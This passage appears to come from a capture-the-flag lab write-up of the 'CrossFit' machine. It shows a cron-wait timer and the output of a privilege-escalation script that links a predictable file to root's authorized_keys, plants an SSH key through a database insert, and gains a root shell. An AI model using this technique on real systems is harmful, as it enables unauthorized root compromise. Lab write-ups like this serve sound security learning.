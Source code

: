 

#### Wait

So I don't have to keep checking the time, I'll run a little countdown
timer until the next cron runs:



    secleft=$((60 - $(date +%-S)))
    echo "[*] Sleeping $secleft seconds until cron"
    nextmin=$((1 + $(date +%-M)))
    while [[ $(date +%-M) -ne $nextmin ]]; do
        echo -en "\r[*] $((60 - $(date +%-S))) seconds left"
        sleep 0.5
    done
    echo -e "\r[*] Try logging in as root with SSH key"



### Exploit

I'll upload the [final script](/files/crossfit-root.sh) to CrossFit and
run it:



    isaac@crossfit:/dev/shm$ ./root.sh
    [*] Writing c code to get "random" int
    [+] Got random int: 1884167658
    [*] Cleaning up code
    [+] Filename will be: /var/local/56bd8aef3ca539e098fdb7c135c31544
    [+] Created symlink to /root/.ssh/authorized_keys
    [*] Writing to DB: insert into messages(id, name, email, message) values (223, 'ssh-ed25519', 'nobody@nothing', 'AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d')
    [*] Sleeping 26 seconds until cron
    [*] Try logging in as root with SSH key



It worked:



    root@kali# ssh -i ~/keys/ed25519_gen root@10.10.10.208
    Linux crossfit 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Mon Sep 21 04:46:55 2020
    root@crossfit:~# 







